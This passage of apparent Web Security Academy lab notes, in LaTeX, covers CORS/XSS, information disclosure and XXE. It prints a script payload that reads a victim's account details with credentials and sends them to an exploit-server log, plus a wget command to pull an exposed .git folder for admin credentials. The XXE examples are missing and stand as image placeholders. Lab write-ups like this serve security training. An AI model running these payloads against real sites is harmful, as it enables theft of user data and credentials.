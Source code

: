 \documentclass[
  letterpaper,
]{article}
\newcommand{\passthrough}[1]{#1}
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\begin{document}
\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
<script>
location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
\end{Verbatim}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  Information disclosure in version control history
\end{enumerate}

\begin{quote}
Observe .git directory on site. Download entire .git folder with
\passthrough{\lstinline!wget -r https://YOUR-LAB-ID.web-security-academy.net/.git/!}\\
Open folder using \passthrough{\lstinline!tig /home/kali/Desktop/.git!},
observe admin credentials.
\end{quote}

\section{XML external entity (XXE)
injection}\label{xml-external-entity-xxe-injection}

\subsection{Approach}\label{approach-6}

The main tip is to scan the whole (not targeted!) request to, usually,
/product/stock check:\\
\begin{quote}
\textbf{IMAGE PLACEHOLDER:} Insert the corresponding source image here in a later revision.
\end{quote}
Request can be like this:\\
\begin{quote}
\textbf{IMAGE PLACEHOLDER:} Insert the corresponding source image here in a later revision.
\end{quote}
Or like this:\\
\begin{quote}
\textbf{IMAGE PLACEHOLDER:} Insert the corresponding source image here in a later revision.
\end{quote}
I really recommend you to use both links below, because they can adapt
XXE payload, that was given you by Burp Scan.
\end{document}

